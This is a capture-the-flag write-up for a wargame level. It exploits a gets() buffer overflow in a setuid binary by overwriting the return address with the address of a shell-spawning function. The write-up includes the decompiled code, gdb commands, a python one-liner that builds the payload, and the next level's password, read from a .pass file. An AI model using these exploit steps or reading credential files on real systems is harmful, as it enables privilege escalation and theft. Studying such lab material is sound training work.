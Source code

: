 # level1

For the level1 we have a script called level1 made by level2. After analyzing it in ghidra we can see that the main is extremely basic:

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

We also can see in the man of gets that this is a function that shouldn't be used at all coast because of it's overflow vulnerabily which sounds delightful for us.

We also can see that local_50 is a buffer of 76 character and indeed when executing level1, if we enter 76 or more characters, we get a segfault. (At 76 characters precisely we get an Illegal instruction to be precise).

After some reaserches on Buffer Overflow exploits we get to learn how to use gdb, a debugger program apparently that allows us to have a ton of details on the program.

Some commands for gdb launched with gdb ./level1:

```
r                   => run the program (run works too)
b main              => set a breakpoint when entering main
b * 0xffffffff      => set a breakpoint to a precise address
c                   => continue program (after a breakpoint)
set {int}0x<address>:0x<value>  => change a value while the program runs.
disas main          => disassemble a specific functions in order to obtains more infos such as addresses
ni                  => next instruction to go 1 by 1, line by line through the code
info registers      => show all values of registers variables
x/100xb $esp        => show the 100 first spaces of the stack (esp), can be an address 0xb0000000-20 to read 20 chars before the address
p main              => get the address of the main function
info proc mappings  => show starting address for heap, stack...etc
finish              => finish the current subfunction
print $eax          => print the current eax value (ex. the last return value)
```

After checking a little more the code on ghidra, we also found a function called run(), that is not used anywhere:

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This seems very convenient, so we have to call this function somehow.
After some researches we understood that in the stack the code will be executed in some ways that after the buffer, will be the address of the return function. (where the function has to return to come back to main), if we replaced the address of the return function by the address of run() function, then instead of coming back to main, run would be called and the shell would be executed woth level2 rights.

```sh
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```

We now have the address of run, so we tried to inject in a file 'A' char 76 times and then the address of run function in hexadecimal so:

```sh
echo $(python -c "print('\x90'*76+'\x44\x84\x04\x08')") > /tmp/payload
```

The address has to be written upside down in order to be understood as a pointer address (this is called Little Endian format).
Executing it in gdb we get this:

```sh
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

So the line is printed, but no shell opened. We tried different things to end up with:

```sh
level1@RainFall:~$ cat /tmp/payload -| ./level1
Good... Wait what?
> 
```

The - at the end of the cat is to leave stin open, so the shell can be opened.

```sh
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
